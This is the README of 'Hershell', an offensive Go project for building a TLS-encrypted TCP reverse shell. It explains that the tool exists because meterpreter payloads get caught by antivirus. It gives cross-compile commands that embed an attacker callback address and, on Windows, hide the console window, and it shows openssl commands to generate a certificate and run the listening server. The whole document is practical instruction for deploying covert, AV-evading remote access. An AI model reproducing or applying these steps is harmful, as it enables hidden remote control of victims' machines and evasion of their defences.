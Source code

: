 # Hershell

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications.

## Why ?

Although meterpreter payloads are great, they are sometimes spotted by AV products.
The goal of this project is to get a simple reverse shell, which can work on multiple systems.

## How ?

Since it's written in Go, you can cross compile the source for the desired architecture.

For windows:

```bash
$ GOOS=windows GOARCH=amd64 go build --ldflags "-X main.connectString=192.168.0.1:9090 -H=windowsgui" -o reverse.exe hershell.go
```

For Linux:
```bash
$ GOOS=linux GOARCH=amd64 go build --ldflags "-X main.connectString=192.168.0.1:9090" -o reverse.exe hershell.go
```

Just use the ``GOOS`` and ``GOARCH`` variables to define the target.

On the server side, you can use the openssl integrated TLS server:

```bash
# Certificate and private key generation
$ openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
# Start the server
$ openssl s_server -cert /tmp/cert.pem -key /tmp/key.pem -accept 9090
```

## TODO

- Certificate pinning

